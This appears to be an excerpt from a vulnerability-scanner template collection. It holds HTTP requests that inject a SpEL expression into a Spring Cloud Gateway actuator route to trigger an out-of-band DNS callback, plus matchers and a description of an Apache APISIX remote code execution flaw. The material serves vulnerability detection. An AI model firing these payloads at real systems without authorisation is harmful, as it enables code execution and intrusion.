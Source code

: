 ```
POST /actuator/gateway/refresh HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json

{
  "predicate": "Paths: [/{{randstr}}], match trailing slash: true",
  "route_id": "{{randstr}}",
  "filters": [
    "[[RewritePath #{T(java.net.InetAddress).getByName(\"{{interactsh-url}}\")} = /${path}], order = 1]"
  ],
  "uri": "{{RootURL}}",
  "order": 0
}

```

### Step - 3

```
DELETE /actuator/gateway/routes/{{randstr}} HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - status**

- status
  1. 201

**Type - word**

- part - header
- words
  1. /routes/{{randstr}}

**Type - word**

- part - interactsh_protocol
- words
  1. dns

---

# Apache APISIX - Remote Code Execution

## Description

- A default configuration of Apache APISIX (with default API key) is vulnerable to remote code execution. An attacker can abuse the batch-requests plugin to send requests to bypass the IP restriction of Admin API. When the admin key was changed or the port of Admin API was changed to a port different from the data panel, the impact is lower. But there is still a risk to bypass the IP restriction of Apache APISIX's data panel. There is a check in the batch-requests plugin which overrides the client IP with its real remote IP. But due to a bug in the code, this check can be bypassed.
- severity - critical
- tags - cve,cve2022,apache,rce,apisix,oast,kev
